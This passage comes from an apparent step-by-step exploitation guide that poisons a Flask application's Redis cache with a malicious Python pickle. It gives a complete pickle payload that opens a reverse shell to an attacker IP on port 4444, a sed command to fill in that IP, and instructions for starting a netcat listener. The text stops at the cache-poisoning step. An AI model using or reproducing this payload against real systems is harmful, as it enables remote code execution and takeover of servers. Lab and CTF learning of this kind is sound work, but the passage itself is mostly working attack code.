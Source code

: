 ```bash
print(f'SET flask_cache_exploit "{encoded_payload}"')
print("="*60)
EOF

python3 exploit_payload.py
```

**Copy the base64 payload output** - you'll need it for Redis.

### 13. Alternative: Direct Reverse Shell Payload

If file upload doesn't work, use a direct reverse shell in the pickle:

```bash
cat > exploit_direct.py << 'EOF'
import pickle
import base64

class DirectReverseShell:
    def __reduce__(self):
        import os
        # Replace YOUR_IP with your actual IP
        cmd = 'python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])\''
        return (os.system, (cmd,))

payload = pickle.dumps(DirectReverseShell())
print("Direct Reverse Shell Payload (Base64):")
print(base64.b64encode(payload).decode())
EOF

# Edit to include your IP
sed -i '' 's/YOUR_IP/192.168.1.100/g' exploit_direct.py
python3 exploit_direct.py
```

### Phase 5: Exploitation

### 14. Start Netcat Listener

In a **new terminal window**, start your netcat listener:

```bash
# Terminal 1: Start listener on port 4444
nc -lvnp 4444

# Expected output:
# Listening on 0.0.0.0 4444
```

**Keep this terminal open** - your reverse shell will connect here.

### 15. Poison Redis Cache
